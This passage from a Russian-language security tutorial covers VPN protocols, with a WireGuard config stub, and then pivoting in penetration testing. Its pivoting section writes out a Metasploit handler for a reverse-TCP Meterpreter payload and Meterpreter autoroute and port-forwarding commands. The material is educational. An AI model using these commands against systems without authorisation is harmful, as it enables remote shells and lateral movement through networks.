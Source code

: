 
#### 2.3.4 WireGuard
- **Описание:** Современный, легковесный и быстрый протокол.
- **Преимущества:** Меньшее количество строк кода делает его менее уязвимым к ошибкам.
- **Пример настройки WireGuard:**
```
[Interface]
PrivateKey = <ваш приватный ключ>
Address = 10.0.0.1/24 
```


### 2.4 Примеры использования VPN
- **Удалённая работа:** Безопасное подключение сотрудников к корпоративной сети из любой точки мира.
- **Обход блокировок:** Доступ к заблокированным ресурсам и сервисам.
- **Защита в общественных сетях:** Обеспечение безопасности при использовании общественных Wi-Fi сетей.


## 3. Pivoting

### 3.1 Введение в Pivoting

Pivoting позволяет атакующему использовать скомпрометированную систему для доступа к другим системам в сети. Это важная техника в пентестинге и этическом хакинге, так как она позволяет расширить доступ к сети, используя одну скомпрометированную машину в качестве точки опоры.

### 3.2 Типы Pivoting

- **Локальный Pivoting:** Использование скомпрометированной машины для доступа к другим машинам в той же сети.
- **Удалённый Pivoting:** Использование скомпрометированной машины для доступа к машинам в другой сети через туннелирование.

### 3.3 Инструменты для Pivoting

- **Metasploit:** Популярный инструмент для проведения атак и тестирования безопасности.
  - Пример использования Metasploit для локального pivoting:
    ```plaintext
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST your_ip
    set LPORT 4444
    exploit
    ```
  - Создание туннеля с помощью Meterpreter:
    ```plaintext
    meterpreter > run autoroute -s 192.168.1.0/24
    meterpreter > run portfwd add -l 8080 -p 80 -r 192.168.1.100
    ```

- **ProxyChains:** Инструмент для перенаправления сетевых соединений через цепочку прокси-серверов.
  - Пример использования ProxyChains с SSH:
    ```bash
    proxychains ssh user@remote_host
    ```
